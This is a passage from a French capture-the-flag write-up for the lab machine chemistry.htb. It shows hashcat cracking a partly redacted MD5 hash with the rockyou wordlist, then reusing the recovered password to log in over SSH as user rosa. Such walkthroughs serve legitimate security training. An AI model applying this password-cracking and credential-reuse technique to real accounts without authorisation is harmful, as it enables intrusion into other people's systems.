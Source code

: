```bash
hashcat -m 0 '63ed[...expurgé...]251a5' /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

[...expurgé pour brièveté...]

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

63ed[...expurgé...]251a5:uni[...expurgé...]dos        
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 63ed[...expurgé...]251a5
Time.Started.....: Sat Oct 26 12:33:52 2024 (2 secs)
Time.Estimated...: Sat Oct 26 12:33:54 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1226.2 kH/s (0.19ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2983936/14344385 (20.80%)
Rejected.........: 0/2983936 (0.00%)
Restore.Point....: 2981888/14344385 (20.79%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: unicornn -> underwear88
Hardware.Mon.#1..: Util: 32%

Started: Sat Oct 26 12:33:29 2024
Stopped: Sat Oct 26 12:33:55 2024
```

Le mot de passe trouvé dans la base de données correspond également au mot de passe permettant de se connecter en {% include dictionary.html word="SSH" %} sur le serveur.

```bash
ssh rosa@chemistry.htb
rosa@chemistry.htb's password:
rosa@chemistry:~$ id
uid=1000(rosa) gid=1000(rosa) groups=1000(rosa)
```
